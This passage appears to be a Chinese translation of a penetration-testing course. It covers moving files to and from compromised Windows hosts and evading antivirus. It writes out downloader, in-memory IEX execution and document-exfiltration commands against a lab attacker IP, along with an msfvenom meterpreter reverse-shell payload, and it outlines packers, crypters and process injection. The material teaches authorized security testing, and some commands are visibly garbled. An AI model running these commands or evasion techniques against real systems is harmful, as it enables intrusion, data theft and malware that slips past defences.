| `-x:send sockbuf` | 覆盖默认的 SO_SNDBUF 大小 8192。 |
| `-r:recv sockbuf` | 覆盖默认的 SO_RCVBUF 大小 8192。 |
| `-b:async count` | 覆盖默认的异步计数 3 |
| `-w:windowsize` | 覆盖默认的传输缓冲区大小 65535。 |
| `host` | 指定要连接的远程主机的主机名或 IP 地址。 |

- 备注：
  - `mgot` 和 `mput` 命令接受 y/n/q 作为 是/否/退出。
  - 使用 Control-C 中止命令。

清单 471 - FTP 帮助显示

`ftp -s` 选项接受基于文本的命令行列表，这实际上使客户端变为非交互式。在我们的攻击机器上，我们将设置一个 FTP 服务器，并发起从受控 Windows 主机下载 Netcat 二进制的请求。

首先，我们将 `nc.exe` 的副本放入我们的 `/ftphome` 目录中：

```bash
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
kali@kali:~$ ls /ftphome/
nc.exe
```

清单 472 - 确保 `nc.exe` 在 `ftphome` 目录中

我们已经在我们的 Kali 机器上安装并配置了 Pure-FTPd，但我们将重启它以确保服务可用：

```bash
kali@kali:~$ sudo systemctl restart pure-ftpd
```

清单 473 - 在 Kali 中重启 Pure-FTPd

接下来，我们将使用 `echo` 命令构建一个包含我们要执行的 FTP 命令的文本文件，如清单 474 所示。

该命令文件以 `open` 命令开头，该命令发起与指定 IP 地址的 FTP 连接。接下来，脚本将使用 `USER` 命令以 `offsec` 身份进行身份验证并提供密码 `lab`。此时，我们应该有一个成功通过身份验证的 FTP 连接，并且我们可以脚本化传输文件所需的命令。

我们将使用 `bin` 请求二进制文件传输，并发出 `GET` 请求获取 `nc.exe`。最后，我们将使用 `bye` 命令关闭连接：

```bash
C:\Users\offsec>echo open 10.11.0.4 > ftp.txt
C:\Users\offsec>echo USER offsec >> ftp.txt
C:\Users\offsec>echo lab >> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
```

我们现在准备好使用命令行列表启动 FTP 会话了，这实际上使交互式会话变为非交互式。为此，我们将发出以下 FTP 命令：

```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

在上述列表中，我们使用 `-v` 来抑制任何返回的输出，`-n` 来抑制自动登录，`-s` 来指示我们的命令文件名称。

当清单 475 中的 `ftp` 命令运行时，我们的下载应该已经执行，并且当前目录中应该会出现一个可用的 `nc.exe` 副本：

```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
ftp> open 192.168.1.31 21
```


`ftp> USER offsec`

`ftp> bin`

`ftp> GET nc.exe`

`ftp> bye`

```
C:\Users\offsec> nc.exe -h

[v1.10 NT]

connect to somewhere:	nc [-options] hostname port[s] [ports] ...

listen for inboud:	nc -L -p port [options] [hostname] [port]

options:

        -d				detach from console, stealth mode

        -e prog			inbound program to exec [dangerous!!]

        -g gateway		source-routing hop point[s], up to 8

        -G num		source-routing pointer: 4, 8, 12, ...

        -h				this cruff

        -i secs			delay interval for lines sent, ports scanned

        -l				listen mode, for inboud connects

...
```

### 16.2.2 使用脚本语言进行 Windows 下载

我们可以利用 `VBScript`（在 Windows XP, 2003 中）和 `PowerShell`（在 Windows 7, 2008 及更高版本中）等脚本引擎来将文件下载到我们的受害机器。例如，以下一组非交互式的 `echo` 命令，当粘贴到远程 shell 中时，将写出一个 `wget.vbs` 脚本，该脚本充当一个简单的 HTTP 下载器：

```
echo strUrl = WScript.Arguments.Item(0) >> wget.vbs

echo StrFile = WScript.Arguments.Item(1) >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs

echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs

echo Err.Clear >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs

echo http.Open "GET", strURL, False >> wget.vbs

echo http.Send >> wget.vbs

echo varByteArray = http.ResponseBody >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs

echo strData = "" >> wget.vbs

echo strBuffer = "" >> wget.vbs

echo For lngCounter = 0 To UBound(varByteArray) >> wget.vbs

echo ts.Write Chr(255 And Asc(MidB(varByteArray,lngCounter + 1, 1))) >> wget.vbs

echo Next >> wget.vbs

echo ts.Close >> wget.vbs
```

我们可以使用 `cscript` 运行此脚本，以从我们的 Kali 机器下载文件：

```
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

对于较新版本的 Windows，我们可以使用 PowerShell 作为更简单的下载替代方案。以下示例展示了使用 `System.Net.WebClient` PowerShell 类的下载脚本实现。

<sup>397</sup> (维基百科, 2019). https://en.wikipedia.org/wiki/VBScript

### 16.2.3 使用 exe2hex 和 PowerShell 在 Windows 上下载文件

在本节中，我们将通过一条迂回但非常有趣的路线，从 Kali Linux 向被攻陷的 Windows 主机下载二进制文件。首先，在我们的 Kali 机器上，我们会压缩想要传输的二进制文件，将其转换为十六进制字符串，并将其嵌入到一个 Windows 脚本中。

在 Windows 机器上，我们将此脚本粘贴到 shell 中并运行它。该脚本会将十六进制数据重定向到 `powershell.exe`，后者会将其重新组装回二进制文件。这将通过一系列非交互命令完成。

作为一个示例，让我们使用 `powershell.exe` 通过远程 shell 将 Ncatcat 从我们的 Kali Linux 机器传输到我们的 Windows 客户端。

我们将从在 Kali Linux 上定位并检查 `nc.exe` 文件开始。

```
kali@kali:~$ locate nc.exe | grep binaries

/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .

kali@kali:~$ ls -lh nc.exe

-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
```
**列表 484 - 定位并检查 nc.exe**

尽管该二进制文件已经相当小，但我们仍会进一步减小文件大小以展示其方法。我们将使用 `upx`，一种可执行文件打包器（也称为 PE 压缩工具）：

```
kali@kali:~$ upx -9 nc.exe

Ultimate Packer for eXecutables

Copyright (C) 1996 - 2018

Markus Oberhumer, Laszlo Molnar & John Reiser Aug 26th 2018

UPX 3.95

File size     Ratio     Format      Name

----------------------  -----  ---------------  ------------------------------

59392 ->    29696     50.00%    win32/pe     nc.exe

Packed 1 file.

kali@kali:~$ ls -lh nc.exe

-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe
```
**列表 485 - 打包并压缩 nc.exe**

如我们所见，`upx` 优化了 `nc.exe` 的文件大小，使其减少了近 50%。尽管尺寸更小，但 Windows PE 文件仍然功能完好，并可正常执行。

现在，我们的文件已优化完毕并准备传输，我们可以将 `nc.exe` 转换为一个在 Windows 机器上运行的 Windows 脚本（`.cmd`），该脚本会将文件转换为十六进制并指示 `powershell.exe` 将其重新组装为二进制文件。我们将使用出色的 `exe2hex` 工具进行转换过程：


kali@kali:~$ `exe2hex` -x `nc.exe` -p `nc.cmd`

[*] `exe2hex` v1.5.1

[*] Successfully wrote (PoSH) `nc.cmd`

```
**列表 486 - 将 nc.exe 转换为批处理文件**

这会创建一个名为 **nc.cmd** 的脚本，其内容如下所示：

```

kali@kali:~$ head nc.cmd

echo|set /p="">nc.hex

echo|set /p="4da590000300000004000000ffff00000b8000000000000064000000000000000000000000

00000000000000000000000000000000000000000000000000e1fa0a00b409cd21b8014ccd21546

869732078726f677261d2063616e6e6f742062652077566e20696e20444f533206d6f46562e000d00a2400

00000000000*">nc.hex

echo|set /p="50450004c010300b98ea3400000000000000000000000f010b0105000670000100000000

0d00000704c01000e000000005001000000040000010000000020000040000000000000000004000000000000

00000010001000000000000003000000000100000001000000001000000010000000000000000100000000000

00000000000*">nc.hex

...

```
*列表 487 - exe2hex 的脚本输出*

请注意，该脚本中的大多数命令是非交互式的，主要由 `echo` 命令组成。在脚本的末尾，我们会发现用于在目标机器上重建 **nc.exe** 可执行文件的命令：

```

powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$h=$h[0].length;$b=New-Object byte[] ($h/2); $x=0;for ($i=0;$i -le $h/2;$i+=2){$b[$x]=byte[0];$b[$h/2].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"

```
*列表 488 - 用于重建 nc.exe 的 PowerShell 命令*

当我们将此脚本复制并粘贴到 Windows 机器的 shell 中并运行时，我们可以看到它确实创建了原始 **nc.exe** 的一个完美工作副本。

```

0000000000000000000000000000000000000000*">nc.hex

C:\Users\offsec>powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$h=$h[0].length;$b=New-Object byte[] ($h/2);$x=0;for ($i=0;$i -le $h/2;$i+=2){$b[$x]=byte[0];$b[$h/2].Parse($h,$i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"

C:\Users\offsec> nc -h

[v1.10 NT]

connect to somewhere: nc [-options] hostname port[s] [ports] ...

listen for inbound: nc -l -p port [options] [hostname] [port]

options:

-d detach from console, stealth mode

-e prog inbound program to exec [dangerous!!]

...

```
*列表 489 - 使用 PowerShell 重建 nc.exe*

#### 16.2.4 使用 Windows 脚本语言进行 Windows 上传

在某些场景中，我们可能需要使用 Windows 客户端从目标网络窃取数据。由于标准 TFTP、FTP 和 HTTP 服务器在 Windows 上默认很少启用，这可能会很复杂。

幸运的是，如果允许出站 HTTP 流量，我们可以使用 `System.Net.WebClient` PowerShell 类通过 HTTP POST 请求将数据上传到我们的 Kali 机器。

为此，我们可以创建以下 PHP 脚本并将其保存为我们 Kali webroot 目录 `/var/www/html` 中的 **upload.php**：

```

<?php

$uploadir = '/var/www/uploads/';

$uploadfile = $uploadir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)

?>

```
**列表 490 - 接收 HTTP POST 请求的 PHP 脚本**

列表 490 中的 PHP 代码将处理传入的文件上传请求，并将传输的数据保存到 `/var/www/uploads/` 目录。

接下来，我们必须创建 **uploads** 文件夹并修改其权限，授予 `www-data` 用户所有权和随后的写入权限：

```

kali@kali: /var/www$ sudo mkdir /var/www/uploads

kali@kali: /var/www$ ps -ef | grep apache

root  1946  1 0 21:39 ?  00:00:00 /usr/sbin/apache2 -k start

www-data  1947  1946 0 21:39 ?  00:00:00 /usr/sbin/apache2 -k start

kali@kali: /var/www$ sudo chown www-data: /var/www/uploads

kali@kali: /var/www$ ls -la

total 16

drwxr-xr-x 4 root  root  4096 Feb 2 00:33 .

drwxr-xr-x 13 root  root  4096 Sep 20 14:57 ..

drwxr-xr-x 2 root  root  4096 Feb 2 00:33 html

drwxr-xr-x 2 www-data www-data 4096 Feb 2 00:33 uploads

```
**列表 491 - 设置 uploads 目录的文件权限**

请注意，这将允许任何与 **uploads.php** 交互的人将文件上传到我们的 Kali 虚拟机。

在 Apache 和 PHP 脚本准备就绪以接收我们的文件后，我们转到被攻陷的 Windows 主机，并调用 **System.Net.WebClient** 类中的 **UploadFile** 方法，以上传我们要窃取的文档，在此情况下是一个名为 **important.docx** 的文件：

```

C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

```
**列表 492 - 将文件上传到攻击者机器的 PowerShell 命令**

在执行 **powershell** 命令之后，我们可以验证文件的成功传输：

```

kali@kali: /var/www/uploads$ ls -la

total 360

drwxr-xr-x 2 www-data www-data 4096 Feb 2 00:38 .

drwxr-xr-x 4 root  root  4096 Feb 2 00:38 ..

-rw-r--r-- 1 www-data www-data 359250 Feb 2 00:38 important.docx

```
**列表 493 - 验证已上传的文件**

此外，前面的章节讨论了使用 PowerShell 下载文件。供参考，以下是创建并执行下载器脚本的命令序列：


`C:\Users\Offsec>` `echo $webclient = New-Object System.Net.WebClient >>wget.psl`

`C:\Users\Offsec>` `echo $url = "http://10.11.0.4/evil.exe" >>wget.psl`

`C:\Users\Offsec>` `echo $file = "new-exploit.exe" >>wget.psl`

`C:\Users\Offsec>` `echo $webclient.DownloadFile($url,$file) >>wget.psl`

### 列表 479 - 创建 PowerShell HTTP 下载器脚本

现在我们可以使用 PowerShell 运行该脚本并下载我们的文件。然而，为了确保正确且隐蔽的执行，我们在脚本执行中指定了若干选项，如下面的列表 480 所示。

首先，我们必须使用 `-ExecutionPolicy` 关键字和 `Bypass` 值允许执行 PowerShell 脚本（默认情况下是受限制的）。接下来，我们将使用 `-NoLogo` 和 `-NonInteractive` 分别隐藏 PowerShell 标志横幅并抑制交互式 PowerShell 提示符。`-NoProfile` 关键字将阻止 PowerShell 加载默认配置文件（这不是必需的），最后我们使用 `-File` 指定脚本文件。

`C:\Users\Offsec>` `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.psl`

### 列表 480 - 执行 PowerShell HTTP 下载器脚本

我们还可以像下面所示那样将此脚本作为单行命令执行：

`C:\Users\Offsec>` `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')`

### 列表 481 - 作为单行命令执行 PowerShell HTTP 下载器脚本

如果我们想要下载并执行 PowerShell 脚本而无需将其保存到磁盘，我们可以再次使用 `System.Net.WebClient` 类。这是通过结合 `DownloadString` 方法和 `Invoke-Expression` cmdlet（`IEX`）来实现的。

为了演示这一点，我们将在我们的 Kali 机器上创建一个简单的 PowerShell 脚本（列表 482）：

```
kali@kali:/var/www/html$  sudo cat helloworld.psl

Write-Output "Hello World"
```

### 列表 482 - 托管在我们 web 服务器上的 Hello World 脚本

接下来，我们将在被攻陷的 Windows 机器上使用以下命令运行该脚本（列表 483）：

```
C:\Users\Offsec>  powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.psl')

Hello World
```

### 列表 483 - 直接从内存执行远程 PowerShell 脚本

PowerShell 脚本的内容已从我们的 Kali 机器下载并成功执行，而无需将其保存到受害者的硬盘上。

脚注：
399 (Microsoft, 2019). https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6

## 16.2.5 使用 TFTP 上传文件

虽然上述基于 Windows 的文件传输方法适用于 Windows 7 及 Windows Server 2008 R2 之后的所有 Windows 版本，但当我们遇到较旧的操作系统时，可能会遇到问题。虽然 PowerShell 功能强大且常被使用，但它并非在 Windows XP 和 Windows Server 2003 等操作系统上默认安装，而这些系统仍存在于某些生产网络中。虽然 VBScript 和 FTP 客户端均存在并且可以工作，但在本小节中，我们将讨论另一种在现场环境中可能有效的文件传输方法。

TFTP 是一种基于 UDP 的文件传输协议，通常会被企业出口防火墙规则限制。

在渗透测试期间，我们可以使用 TFTP 将文件从较旧的 Windows 操作系统（直至 Windows XP 和 2003）传输出来。这对于非交互式文件传输来说是一个极好的工具，但在运行 Windows 7、Windows 2008 及更新版本的系统中并未默认安装。

出于这些原因，TFTP 在大多数情况下并不是理想的文件传输协议，但在特定情况下，它具有其优势。

在我们学习如何使用 TFTP 传输文件之前，首先需要在 Kali 中安装和配置 TFTP 服务器，并创建一个目录来存储和提供文件。接下来，我们更新目录的所有者权限，以便我们可以向其中写入文件。我们将在 UDP 端口 69 上以守护进程模式运行 `atftpd`，并指示其使用新创建的 `/tftp` 目录：

```
kali@kali:~$ sudo apt update && sudo apt install atftp

kali@kali:~$ sudo mkdir /tftp

kali@kali:~$ sudo chown nobody: /tftp

kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

在 Windows 系统上，我们将运行 `tftp` 客户端并使用 `-i` 指定二进制映像传输，接着是我们在 Kali 系统的 IP 地址，使用 `put` 命令发起上传，最后是指定要上传的文件名。

最终命令类似于清单 495 中所示的命令：

```
C:\Users\Offsec> tftp -i 10.11.8.4 put important.docx

Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```


> *对于使用常见的 Windows 实用工具进行文件操作、程序执行、UAC 绕过等以及一些令人难以置信的有趣方法，请参阅由 Oddvar Moe 和多位贡献者维护的“利用本地二进制文件和脚本（Living Off The Land Binaries And Scripts, LOLBAS）”项目，该项目旨在“记录可用于这些技术的每个二进制文件、脚本和库”。例如，`certutil.exe` 程序可以轻松下载任意文件等。*

### 16.2.5.1 练习

（这些练习不需要报告）

- 使用 VBScript 在非交互式 shell 中从 Kali 向 Windows 传输文件。
- 使用 PowerShell 在非交互式 shell 中从 Kali 向 Windows 传输文件，反之亦然。
- 对于 PowerShell 3 及以上版本，它默认存在于 Windows 8.1 和 Windows 10 中，已添加了 cmdlet `Invoke-WebRequest`。尝试利用它来执行对您 Kali 机器的上传和下载请求。
- 使用 TFTP 在非交互式 shell 中从 Kali 向 Windows 传输文件。

**注意：** 如果您遇到问题，请先在交互式 shell 中尝试传输过程，并观察可能导致非交互式 shell 中出现问题的情况。

## 16.3 总结

在本模块中，我们专注于后渗透利用的文件传输。我们了解了传统的文件传输方法，如 FTP 和 TFTP，并学习了如何升级非交互式 shell。我们还专门研究了使用各种脚本语言的特定 Windows 文件传输方法，以及如何使用 `exe2hex` 实用工具传输文件。

在评估过程中，我们可以以多种方式使用这些方法，以帮助将工具或数据传输到目标网络中或传输出来。

# 17. 病毒查杀规避

在尝试攻陷目标机器时，攻击者通常会禁用或以其他方式绕过安装在这些系统上的防病毒软件。作为渗透测试人员，我们必须理解并能够模拟这些技术，以展示这种潜在威胁。

在本模块中，我们将讨论防病毒软件的目的，并概述其在大多数公司中的部署方式。我们将检查用于检测恶意软件的各种方法，并探索一些允许我们在目标机器上绕过防病毒软件的可用工具。

## 17.1 什么是防病毒软件

防病毒软件（AV）是一种旨在防止、检测和删除恶意软件的应用程序。它最初的设计只是为了简单删除计算机病毒。然而，随着其他类型恶意软件的发展，防病毒软件现在通常包含额外的防护功能，如防火墙、网站扫描器等。

### 17.2 检测恶意代码的方法

为了展示各种防病毒产品的有效性，我们将首先扫描一个流行的 Metpreter 载荷。使用 `msfvenom`，我们将生成一个包含我们载荷的标准可移植可执行文件，在本例中是一个简单的 TCP 反向 shell。

> 可移植可执行文件（PE）格式用于 Windows 操作系统中的可执行文件和对象文件。PE 格式表示一种 Windows 数据结构，详细说明了 Windows 加载器管理封装的可执行代码所需的信息，包括所需的动态库、API 导入和导出表等。

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.8.4 LPORT=4444 -f exe > binary.exe

No platform was selected, choosing Msf::Module::Platform::Windows from the payload

No Arch selected, selecting Arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 333 bytes

Final size of exe file: 73802 bytes
```


清单 496 - 生成包含 meterpreter shell 的恶意 PE。

接下来，我们将对该可执行文件进行病毒扫描。与其在本地机器上安装大量防病毒应用程序，我们可以将文件上传到 VirusTotal，它将扫描该文件以确定各种 AV 产品的检测率。

> VirusTotal 很方便，但它会为每个独特的提交生成一个哈希值，然后与所有参与的 AV 厂商共享。因此，在提交敏感载荷时要小心，因为哈希值从第一次提交之时起基本上就被视为公开信息。

此次扫描的结果如下所示：


*图 263：VirusTotal 对 meterpreter 载荷的扫描结果。*

根据这些结果，我们可以看到许多防病毒产品将我们的文件检测为恶意文件。在深入研究规避技术之前，我们首先必须了解防病毒制造商用于检测恶意代码的技术。

#### 17.2.1 基于签名的检测

防病毒签名是恶意软件内部唯一标识其的一组连续字节。基于签名的防病毒检测主要被认为是一种*黑名单技术*。换句话说，文件系统会被扫描以查找已知的恶意软件签名，如果检测到任何签名，相关违规文件将被隔离。这意味着，使用正确的工具，我们可以相当轻松地绕过依赖于此检测方法的防病毒软件。具体来说，我们可以通过简单地更改或混淆已知恶意文件的内容，从而破坏其识别字节序列（即签名），来绕过基于签名的检测。

**参考资料：**

1. (Wikipedia, 2019), https://en.wikipedia.org/wiki/Trivial_File_Transfer_Protocol
2. (LOLBAS-Project, 2019), https://github.com/LOLBAS-Project/LOLBAS
3. (api0cradle, 2018), https://github.com/api0cradle/LOLBAS/blob/master/OSBinaries/Certutil.md
4. (Microsoft, 2019), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6
5. (Wikipedia, 2019), https://en.wikipedia.org/wiki/Antivirus_software
6. (Wikipedia, 2019), https://en.wikipedia.org/wiki/Portable_Executable
7. (Wikipedia, 2019), https://en.wikipedia.org/wiki/Loader_(computing)
8. (VirusTotal, 2019), https://www.virustotal.com/#/home/upload

根据正在测试的杀毒软件类型和质量，有时我们只需将二进制文件内几个无害字符串从大写改为小写，即可绕过杀毒软件。然而，并非每种情况都如此简单。

由于杀毒软件供应商使用不同的特征码和专有技术来检测恶意软件，并且每家供应商都会不断更新其数据库，因此通常很难找到一种通用的抗病毒躲避方案。很多时候，这一过程基于测试环境中的试错方法。

因此，在渗透测试期间，在考虑绕过策略之前，我们应该识别已部署的杀毒软件的存在、类型和版本。如果客户网络或系统实施了杀毒软件，我们应该尽可能收集信息，并在上传文件到目标机器之前，在实验室环境中复制配置以进行抗病毒绕过测试。

#### 17.2.2 启发式和基于行为的检测

为了解决基于特征的检测的局限性，杀毒软件制造商引入了额外的检测方法，以提高其产品的有效性。

基于启发式的检测[409]是一种依赖各种规则和算法来判断某种操作是否被视为恶意的检测方法。这通常是通过逐步执行二进制文件的指令集，或尝试反编译然后分析源代码来实现的。其思想是寻找被认为恶意的各种模式和程序调用（而不是简单的字节序列）。

或者，基于行为的检测[410]动态分析二进制文件的行为。这通常通过在模拟环境（如小型虚拟机）中执行相关文件，并查找被认为恶意的行为或操作来实现。

由于这些技术不需要恶意软件特征码，因此可以更有效地用于识别未知恶意软件或已知恶意软件的变种。鉴于杀毒软件制造商在启发式和行为检测方面的实现方式不同，每种抗病毒产品在认为哪些代码是恶意方面将存在差异。

值得注意的是，大多数抗病毒开发商使用这些检测方法的组合，以实现更高的检测率。

## 17.3 绕过抗病毒检测

一般来说，抗病毒躲避分为两大类：磁盘上和内存中的。磁盘上的躲避侧重于修改物理存储在磁盘上的恶意文件，以试图逃避杀毒软件检测。鉴于抗病毒文件扫描的成熟度，现代恶意软件通常尝试内存操作，完全避免磁盘，从而降低被检测的可能性。在以下部分中，我们将对这两种方法中使用的一些技术进行非常一般的概述。请注意，这些技术的细节超出了本模块的范围。

### 17.3.1 磁盘上的躲避

为了开始讨论躲避技术，我们首先看一下用于混淆存储在物理磁盘上的文件的各种技术。

#### 17.3.1.1 压缩工具（Packers）

现代磁盘上的恶意软件混淆可以采取多种形式。避免检测最早的方式之一涉及使用压缩工具[410]。鉴于互联网早期磁盘空间的高成本和缓慢的网络速度，压缩工具最初设计为简单减小可执行文件的大小。与现代的“zip”压缩技术不同，压缩工具生成的可执行文件不仅更小，而且具有完全新的二进制结构，并在功能上等价。生成的文件具有新的特征码，因此可以有效绕过较旧和更简单的抗病毒扫描器。尽管一些现代恶意软件使用此技术的变体，但仅使用 `UPX`[411] 和其他流行压缩工具对于躲避现代抗病毒扫描器是不够的。

#### 17.3.1.2 混淆器（Obfuscators）

混淆器以重组和变异代码的方式使其更难逆向工程。这包括用语义等价的指令替换指令，插入无关指令或“死代码”，[412] 拆分或重新排序函数等。虽然主要被软件开发者用于保护其知识产权，但这种技术在对抗基于特征的抗病毒检测方面也有一定的效果。

#### 17.3.1.3 加密器（Crypters）

“加密器”软件在密码学上改变可执行代码，添加一个解密存根，该存根在执行时恢复原始代码。解密发生在内存中，磁盘上仅保留加密的代码。加密已成为现代恶意软件中一种最有效的抗病毒躲避技术之一，并奠定了其基础。

#### 17.3.1.4 软件保护器（Software Protectors）

高效的抗病毒躲避需要结合所有上述技术以及其他高级技术，包括反逆向、反调试、虚拟机仿真检测等。在大多数情况下，软件保护器是为合法目的设计的，但也可以用于绕过抗病毒检测。

许多这些技术在高层看似简单，但实际上相当复杂。因此，目前很少有积极维护的免费工具能够提供可接受的抗病毒躲避。在可用工具中，`The Enigma Protector`[413] 特别能够成功用于绕过抗病毒产品。

### 17.3.2 内存中的躲避

`内存注入`，[414] 也称为 `PE 注入`，是一种流行的用于绕过抗病毒产品的技术。不是混淆恶意二进制文件、创建新部分或更改现有权限，该技术侧重于操作易失性内存。该技术的主要优点之一是不向磁盘写入任何文件，而文件写入是大多数抗病毒产品关注的主要领域之一。

有一些躲避技术[415]不向磁盘写入文件。虽然我们将简要解释其中一些，但在本模块中，我们将只详细介绍使用 PowerShell 进行内存注入，因为其他技术依赖于 C/C++ 等语言的底层编程背景，超出了本模块的范围。

#### 17.3.2.1 远程进程内存注入

该技术试图将有效载荷注入到另一个有效的、非恶意的 PE 中。实现此的最常见方法是利用一组 Windows API。[416] 首先，我们将使用 `OpenProcess`[417] 函数获取对我们有权限访问的目标进程的有效 `句柄`（`HANDLE`）[418]。获得句柄后，我们将通过调用 `VirtualAllocEx` 等 Windows API[419] 在该进程的上下文中分配内存。一旦在远程进程中分配了内存，我们将使用 `WriteProcessMemory` 将恶意有效载荷复制到新分配的内存中[420]。有效载荷成功复制后，通常使用 `CreateRemoteThread` API 在单独的线程中在内存中执行[421]。

这听起来很复杂，但我们将在以下示例中使用类似的技术，使用 PowerShell 完成大部分繁重的工作，并针对本地 `powershell.exe` 实例执行非常相似但简化的攻击。

- [413] (Enigma Protector, 2019), http://www.enigmaprotector.com/en/home.html
- [414] (Endgame, 2017), https://www.endgame.com/blog/technical-blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- [415] (F-Secure, 2018) https://blog.f-secure.com/memory-injection-like-a-boss/
- [416] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Windows_API
- [417] (Microsoft, 2019), https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess
- [418] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Handle_(computing)
- [419] (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
- [420] (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
- [421] (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethread

#### 17.3.2.2 反射式 DLL 注入

与常规 DLL 注入不同（后者意味着使用 `LoadLibrary` API 从磁盘加载恶意 DLL），此技术尝试加载攻击者存储在进程内存中的 DLL。

实现此技术的主要挑战在于 `LoadLibrary` 不支持从内存加载 DLL。此外，Windows 操作系统也没有暴露任何可以处理此问题的 API。选择使用此技术的攻击者必须自行编写一个不依赖基于磁盘的 DLL 的 API 版本。

#### 17.3.2.3 进程掏空（Process Hollowing）

当使用进程掏空技术绕过防病毒软件时，攻击者首先以挂起状态启动一个非恶意进程。启动后，从内存中移除该进程映像，并替换为恶意可执行文件映像。最后，恢复进程运行，此时执行的是恶意代码，而非合法的进程。

#### 17.3.2.4 内联挂钩（Inline Hooking）

顾名思义，此技术涉及修改内存并在函数中引入挂钩（重定向代码执行的指令），将执行流程指向我们的恶意代码。在执行完我们的恶意代码后，流程将返回到被修改的函数并继续执行，看起来就好像只执行了原始代码一样。

## 17.3.3 反病毒规避：实际案例

现在，既然我们已经对防病毒软件使用的检测技术及相应的绕过方法有了大致的了解，我们可以将重点转向一个实际案例。

寻找一种绕过所有防病毒产品的通用解决方案是非常困难且耗时的，甚至可能是不可能的。考虑到典型渗透测试的时间限制，针对客户端网络中部署的特定防病毒产品进行攻击要高效得多。

为了本模块的目的，我们将在 Windows 10 客户端上安装 Avira Free Antivirus 版本 15.0.34.16。Avira 安装程序位于 `C:\Tools\antivirus_evasion\` 目录中。安装完成后，我们可以通过在 Windows 10 搜索栏中搜索“启动 Avira Antivirus”来检查其配置：


启动该应用程序将显示 Avira 控制中心，在那里我们可以验证是否已启用 `Real-Time Protection` 功能；如果未启用，我们可以手动启用它：


作为第一步，我们应该验证防病毒产品是否按预期工作。我们将使用之前生成的 meterpreter 载荷并用 Avira 对其进行扫描。

这些系统以及它们认为有害的内容，诸如上述脚本可能需要针对目标环境进行修改或调整。

### 17.3.3.2 练习

- 1. 审阅 PowerShell 脚本的代码，并确保你对其工作原理有基本的了解。
- 2. 使用 PowerShell 在你的 Kali Linux 机器上获取 metasploit shell。
- 3. 尝试使用 PowerShell 一行命令（one-liner）而不是脚本来获取反向 shell。

### 17.3.3.3 Shellter

Shellter 是一个动态 shellcode 注入工具，也是能够绕过防病毒软件的最受欢迎的免费工具之一。它使用多种新颖且高级的技术，基本上通过恶意 shellcode 载荷为合法且非恶意的可执行文件植入后门。

虽然 Shellter 使用的技术细节超出了本模块的范围，但它本质上会对目标 PE 文件及其执行路径进行彻底分析。然后，它确定可以在哪里注入我们的 shellcode，而无需依赖容易被 AV 引擎捕获的传统注入技术。这些技术包括更改 PE 文件节区权限、创建新节区等。

最后，Shellter 尝试使用现有的 PE 导入地址表 (IAT) 条目来定位将用于内存分配、传输和执行我们的载荷的函数。

在掌握了一些理论基础之后，让我们尝试使用 Shellter 绕过当前的防病毒软件。我们可以使用 aPT 在 Kali 中安装 Shellter：

```
```


# Shellter 安装与使用示例

`kali@kali:~$ apt-cache search shellter`

`shelter - Dynamic shellcode injection tool and dynamic PE infector`

`kali@kali:~$ sudo apt install shellter`

